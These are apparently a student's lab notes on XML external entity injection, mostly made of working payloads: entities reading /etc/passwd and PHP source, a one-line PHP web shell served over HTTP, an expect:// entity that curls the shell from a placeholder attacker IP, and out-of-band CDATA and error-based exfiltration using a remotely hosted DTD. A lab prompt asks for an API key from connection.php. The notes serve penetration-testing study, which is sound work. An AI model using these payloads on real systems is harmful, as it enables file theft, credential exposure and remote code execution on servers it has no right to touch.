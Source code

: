 ___
# Local File Disclosure

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## RCE

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer. 

# Advanced Exfiltration with CDATA

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

This will not work, since XML prevents joining internal and external entities.

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

![[Pasted image 20241009203307.png]]
# Error Based XXE

First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

